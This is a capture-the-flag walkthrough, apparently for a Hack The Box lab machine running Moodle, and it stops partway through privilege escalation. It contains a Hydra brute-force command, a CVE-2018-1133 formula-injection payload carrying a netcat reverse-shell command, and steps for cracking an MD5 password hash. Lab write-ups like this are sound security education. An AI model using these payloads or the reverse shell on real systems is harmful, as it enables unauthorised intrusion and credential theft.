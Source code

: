 # Solution

Nmap results:
```
Apache httpd 2.4.25
```

Dirbuster showed that there was a login for teachers, `http://10.10.10.153/moodle/login/index.php`, and other things like, media, images ect. I started to go through ip/images, and found a file that wouldn't open, fired up burpsuite to check it out, intercepted it and sent to repeater. The repeater showed that a teacher uploaded a support ticket, and somehow it got into the wrong place of the site. Response:
```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```
This is kinda a lame way of finding the password. Now I need to figure out a possible username, then I'll need to bruteforce the last char.

Made a quick python script to append every ascii char to the end of Giovanni's password, then used Hydra to brute force the site. Hydra command:
```
hydra -l Giovanni -P python_wordlist 10.10.10.153 http-post-form "/moodle/login/index.php:username=^USER^&password=^PASS^&Login=Login:Invalid login, please try again" -V
```
Hydra found the password, 'Th4C00lTheacha#'. A little infomration about Moodle:
```
Moodle is a widely-used open-source e-Learning software with more than 127 million users allowing teachers and students to digitally manage course activities and exchange learning material, often deployed by large universities. In this post we will examine the technical intrinsics of a critical vulnerability in the previous Moodle release detected by RIPS Code Analysis (CVE-2018-1133). https://blog.ripstech.com/2018/moodle-remote-code-execution/
```
I then followed the 'Evil Teacher' guide, small overview of what I did:
```
Logged in with the user/pass

Went to 'my courses' then made a new topic

Clicked on the newly created topic and edited it, so I could add a math question

I clicked caulculated question for the type of math question

Filled all the needed params, then inserted /*{a*/`$_GET[0]`;//{x}} in the formula param and saved

Saving will take you to a new page, on this page just append this to the end of the url, &0=(data;nc -e /bin/bash VPN_IP 4444)

Click next page and enter in the same pice of code again and reload the page (make sure to have a listener up on your local pc before reloading the page)
```
As usual I want to upgrade my shell, so I went with the easiest method first, python:
```
python -c 'import pty;pty.spawn("/bin/bash");'
CTRL-Z
stty raw -echo
FG
```
I then cd'd down 2 dirs, now im in the moddle dir, inside that was a config.save which told me that the database password was 'Welkom1!', and the username was root. Logged in and found a few databses, one of them being moodle, so I looked into that one and found an index with encrypted passwords. One being the user 'Giovanniba', hash, '7a860966115182402ed06375cf0a22af'. The hash is md5, so I used john to crack it, `john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`, password is expelled.

Now to get root privs, I first used a script to enumerate the machine, lse.sh. Didn't really find much, so I just started looking around the home dir of Giovanni and found a file in tmp, it was called 'backup_courses.tar.gz', so I checked cron and didn't see anything, but I noticed that the modified date on the file was today. So I used a script that would monitor all processes: script name is pspy, its made from the Go lang. After running it I saw what I thought was happening. There was a root priv cron job updating the backup file in Giovanni's home dir










